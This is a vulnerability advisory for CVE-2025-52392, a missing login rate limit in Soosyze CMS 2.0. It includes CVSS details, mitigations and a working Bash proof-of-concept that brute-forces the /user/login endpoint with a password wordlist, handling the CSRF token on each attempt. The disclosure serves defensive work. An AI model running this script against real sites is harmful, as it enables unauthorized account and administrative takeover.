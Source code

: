 # Brute Force Login Vulnerability in Soosyze CMS 2.0 (CVE-2025-52392)

**Author:** Beatriz Fresno Naumova (beafn28)

**Date:** 13/08/2025

**Vendor:** Soosyze

**Product:** Soosyze CMS

**Version Affected:** 2.0 (confirmed)

**Component:** /user/login – Authentication Controller

**CWE:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

**Attack Vector:** Remote (network exploitable)

### Description

Soosyze CMS 2.0 contains a vulnerability in the /user/login authentication endpoint that allows unlimited credential-guessing attempts due to the absence of rate limiting and account lockout mechanisms.

A remote, unauthenticated attacker can submit unlimited HTTP POST requests with varying passwords for a known username/email without triggering any throttling, delay, or lockout.

The vulnerability can be exploited using automated tools such as THC Hydra, Burp Suite Intruder, or custom scripts, enabling brute-force attacks that may lead to compromise of administrative accounts.

Testing confirmed that the server issues a valid login form and CSRF token on every request, and accepts repeated authentication attempts without introducing timing penalties or invalidating sessions.

No vendor patch or mitigation was available at the time of publication.

### Impact

Successful exploitation may allow:

* Account Compromise: Unauthorized access to valid user accounts.
* Administrative Takeover: Full compromise of the CMS instance if administrative credentials are obtained.
* Data Exposure/Modification: Unrestricted access to protected content and potential injection of malicious configurations or content.

### Attack Details

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): Required (R)

Scope (S): Unchanged (U)

Confidentiality (C): Low (L)

Integrity (I): Low (L)

Availability (A): None (N)

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
```

**CVSS v3.1 Base Score: 5.4 (Medium)**

### Proof of Concept (PoC)

#### Overview

The following PoC demonstrates a brute-force authentication vulnerability in **Soosyze CMS 2.0** at the `/user/login` endpoint.\
The issue is caused by **missing rate limiting and account lockout mechanisms**, allowing an attacker to try unlimited password guesses.

**Steps to Reproduce**

1. Deploy or access a Soosyze CMS 2.0 instance.
2. Identify a valid username or email address (e.g., test@test.com).
3. Prepare a password dictionary (e.g., rockyou.txt).
4. Execute the provided Bash PoC script to perform automated POST login attempts.

#### PoC Script

{% embed url="https://www.exploit-db.com/exploits/52416" %}

```bash
#!/usr/bin/env bash
# Author: Beatriz Fresno Naumova (beafn28)
# Usage:
#   ./script.sh [wordlist.txt]
# If no wordlist is provided, a dictionary will be used.

set -euo pipefail

BASE_URL="http://localhost:8000"
LOGIN_PATH="/user/login"
EMAIL_FIELD="email"
PASS_FIELD="password"
TARGET_EMAIL="test@test.com"

WORDLIST_FILE="${1:-}"
DEFAULT_WORDS=("123456" "admin" "password" "qwerty" "letmein" "admin123" "password1")

form_url="$BASE_URL$LOGIN_PATH"
COOKIE_JAR="$(mktemp)"

get_form() {
    curl -sS -c "$COOKIE_JAR" -b "$COOKIE_JAR" "$form_url" > /tmp/login_page.html
}

extract_token() {
    local name value
    name=$(sed -nE 's/.*name="([_a-zA-Z0-9:-]*(token|csrf)[_a-zA-Z0-9:-]*)".*type="hidden".*/\1/p' /tmp/login_page.html | head -n1 || true)
    value=""
    if [[ -n "$name" ]]; then
        value=$(sed -nE "s/.*name=\"$name\".*value=\"([^\"]*)\".*/\1/p" /tmp/login_page.html | head -n1 || true)
    fi
    printf '%s\t%s\n' "$name" "$value"
}

post_login() {
    local pass="$1" tname="$2" tval="$3"
    curl -sS -o /tmp/resp.html -w "%{http_code}" \
        -c "$COOKIE_JAR" -b "$COOKIE_JAR" \
        -X POST "$form_url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "Origin: $BASE_URL" -H "Referer: $form_url" \
        --data-urlencode "$EMAIL_FIELD=$TARGET_EMAIL" \
        --data-urlencode "$PASS_FIELD=$pass" \
        $( [[ -n "$tname" && -n "$tval" ]] && printf -- '--data-urlencode %s=%s' "$tname" "$tval" )
}

echo "[*] Starting brute-force attack on $form_url"
[[ -n "$WORDLIST_FILE" && -r "$WORDLIST_FILE" ]] && mapfile -t words < "$WORDLIST_FILE" || words=("${DEFAULT_WORDS[@]}")

i=0
for pw in "${words[@]}"; do
    i=$((i+1))
    get_form
    IFS=$'\t' read -r TOKEN_NAME TOKEN_VALUE < <(extract_token)
    code=$(post_login "$pw" "$TOKEN_NAME" "$TOKEN_VALUE")

    if grep -q '"redirect"' /tmp/resp.html; then
        echo -e "[$i] Password found: '\e[1m$pw\e[0m' (HTTP $code)"
        break
    else
        echo "[$i] '$pw' (HTTP $code)"
    fi

    sleep 0.$((RANDOM%9+1))
done

rm -f "$COOKIE_JAR" /tmp/resp.html
```

#### Execution example

```
./poc.sh rockyou.txt
```

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-13 a las 22.06.16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.40 (1).png" alt=""><figcaption></figcaption></figure>

### Mitigation

* Implement server-side rate limiting (e.g., maximum 5 failed attempts per minute per IP).
* Apply temporary account lockout after multiple failed attempts.
* Introduce CAPTCHA or other bot-mitigation mechanisms after repeated failed logins.
* Consider logging and monitoring repeated failed authentication attempts.

### Discoverer

Beatriz Fresno Naumova (beafn28)

### References

* CVE: [CVE-2025-52392](https://www.cve.org/CVERecord?id=CVE-2025-52392)
* NIST: [https://nvd.nist.gov/vuln/detail/CVE-2025-52392](https://nvd.nist.gov/vuln/detail/CVE-2025-52392)
* Exploit Database: [https://www.exploit-db.com/exploits/52416](https://www.exploit-db.com/exploits/52416)
* Public advisory: [https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392](https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392)
